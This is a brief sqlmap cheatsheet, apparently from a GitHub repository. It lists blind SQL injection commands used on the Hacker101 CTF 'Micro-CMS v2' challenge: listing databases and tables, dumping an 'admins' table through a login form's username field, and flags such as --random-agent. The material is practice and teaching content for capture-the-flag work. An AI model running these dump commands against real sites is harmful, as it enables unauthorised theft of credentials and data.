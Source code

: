 # SQL Map Cheatsheet

Usefull SQL Map commands, some of these come from real life examples in CTFs.

* [Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

## MacOS Installation

```
brew install sqlmap
```

## Blind SQLi attack

Examples for Hacker101 CTF Moderate Micro-CMS v2

### Get database list

```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --dbs --dbms mysql --level 2
```

### Get tables list

```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --tables -D level2 --dbms mysql --level 2
```

### Get contents of specific table

```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --dump -D level2 -T admins --dbms mysql --level 2
```
```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --dump -D level2 -T pages --dbms mysql --level 2
```

### Usefull parameters

* `-o`: turn all optimizations
	* `--threads 5`
	* `--keep-alive`
	* `--predict-output`
	* `--null-connection`
* `--random-agent`
* `--code`: HTTP code to match when query is evaluated to True
